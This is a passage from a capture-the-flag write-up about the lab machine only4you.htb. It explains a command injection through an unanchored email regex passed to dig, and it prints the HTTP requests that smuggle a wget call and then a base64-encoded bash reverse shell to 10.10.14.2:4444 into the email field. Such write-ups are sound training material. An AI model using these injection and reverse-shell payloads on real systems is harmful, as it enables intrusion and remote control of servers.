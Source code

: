 The regular expression validates that the email as all the needed parts, and limit the characters that can be used. But it does not have anchors for the beginning and end of the string. I could add things that were not a valid email at the beginning or the end of the email address.

The dig command used everything that came after the '@' in the email address. I tried adding a second command at the end of my email.


```http
POST / HTTP/1.1
Host: only4you.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 73
Origin: http://only4you.htb
Connection: close
Referer: http://only4you.htb/
Upgrade-Insecure-Requests: 1

name=Eric&email=test%40test.com;wget 10.10.14.2&subject=Test&message=Test
```

I started a web server before posting my payload. It got a hit.

```bash
$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.210 - - [06/May/2023 11:30:50] "GET / HTTP/1.1" 200 -
```

I knew I could execute code on the server. I created a payload to get a reverse shell. I encoded it in base64 to avoid having special characters.

```bash
$ echo 'bash  -i >& /dev/tcp/10.10.14.2/4444  0>&1  ' | base64
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMi80NDQ0ICAwPiYxICAK
```

Then I started a netcat listener and sent the payload with the email address.

```http
POST / HTTP/1.1
Host: only4you.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 73
Origin: http://only4you.htb
Connection: close
Referer: http://only4you.htb/
Upgrade-Insecure-Requests: 1

name=Eric&email=test%40test.com;echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMi80NDQ0ICAwPiYxICAK | base64 -d | bash&subject=Test&message=Test
```

